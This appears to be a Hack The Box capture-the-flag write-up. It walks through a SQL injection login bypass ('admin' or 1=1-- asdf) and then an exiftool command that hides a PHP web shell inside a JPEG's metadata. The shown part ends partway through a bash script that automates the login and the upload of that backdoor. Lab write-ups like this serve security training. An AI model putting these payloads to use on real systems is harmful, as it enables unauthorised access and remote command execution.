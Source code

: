 Whoa. Really nothing. Anyway, here's what the site looks like.

{% include image.html image_alt="3711220a.png" image_src="/c8a031b2-e96f-4055-bc28-99109f5c14ad/3711220a.png" %}

### Authentication Bypass

There's a login page at `/login.php`.

{% include image.html image_alt="67709c9c.png" image_src="/c8a031b2-e96f-4055-bc28-99109f5c14ad/67709c9c.png" %}

We can't enter spaces in the username field but we can paste our bypass payload `admin' or 1=1-- asdf` in it.

{% include image.html image_alt="734c075b.png" image_src="/c8a031b2-e96f-4055-bc28-99109f5c14ad/734c075b.png" %}

Here we go, to the Upload page and beyond!

{% include image.html image_alt="a2c45cb9.png" image_src="/c8a031b2-e96f-4055-bc28-99109f5c14ad/a2c45cb9.png" %}

### Image Upload

The upload page `/upload.php` only takes in images in the JPG, JPEG and PNG format.

{% include image.html image_alt="1b729665.png" image_src="/c8a031b2-e96f-4055-bc28-99109f5c14ad/1b729665.png" %}

We'll just use this image `/images/hey.jpg` as our base for the upload attack.

{% include image.html image_alt="f6c3cfea.png" image_src="/c8a031b2-e96f-4055-bc28-99109f5c14ad/f6c3cfea.png" %}

The idea is to modify the Comment metadata in a JPEG file to PHP code. Check out the original Comment metadata with `exiftool`.

{% include image.html image_alt="78f1ad47.png" image_src="/c8a031b2-e96f-4055-bc28-99109f5c14ad/78f1ad47.png" %}

Let's put the following PHP into the Comment metadata.

```
# exiftool -Comment='<html><body bgcolor="black"><pre style="background-color: white"><?php echo shell_exec($_GET[0]); ?></pre></body></html>' -overwrite_original hey.jpg; cp hey.jpg hey.php
```

Once that's done, make a copy of the file and save it as `hey.php`. Now, let's make use of the simple shell script I wrote to bypass all the image filters, and to upload a PHP backdoor to the gallery.

<div class="filename"><span>upload.sh</span></div>

```bash
#!/bin/bash

HOST=10.10.10.185
AUTH="admin' OR 1=1-- asdf"
COOKIE=$(mktemp -u)
FILE=$1

# login
curl -s \
     -c $COOKIE \
     --data-urlencode "username=${AUTH}&password=" \
     -o /dev/null \
     http://${HOST}/login.php

# upload
curl -s \
     -b $COOKIE \
```

[1]: https://www.hackthebox.eu/home/machines/profile/241
[2]: https://www.hackthebox.eu/home/users/profile/31190
[3]: https://www.hackthebox.eu/